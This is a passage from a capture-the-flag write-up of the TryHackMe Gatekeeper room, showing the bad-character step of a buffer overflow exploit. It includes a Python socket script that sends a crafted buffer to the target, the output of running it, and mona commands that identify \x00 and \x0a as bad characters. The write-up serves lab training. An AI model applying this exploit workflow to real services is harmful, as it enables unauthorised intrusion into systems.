 ```py
bad_char += b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
bad_char += b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
bad_char += b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
bad_char += b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

buffer = payload + bad_char

try:
	with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
		s.connect((ip, port))

		print('[+] Sending evil buffer...')
		s.send(buffer + b'\r\n') # \r means the Enter key, \n means new line character
		print('[+] Done!')
except:
	print('[-] Unable to send/connect to the target.')
```

**Run the exploit:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Gatekeeper]
└─# python3 exploit.py
[+] Sending evil buffer...
[+] Done!
```

**Use mona's `compare` to find missing bytes:**
```
!mona compare -f C:\monagatekeeper\bytearray.bin -a first_byte_of_the_badchars_array
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Gatekeeper/images/a14.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Gatekeeper/images/a15.png)

- Found bad characters: `\x00` and `\x0a`

**Let's remove `\x0a` byte from our python script:**
```
bad_char = b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
```

**Generate a new `bytearrary` with newly found bad character:**
```
!mona bytearray -cpb "\x00\x0a"
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Gatekeeper/images/a16.png)
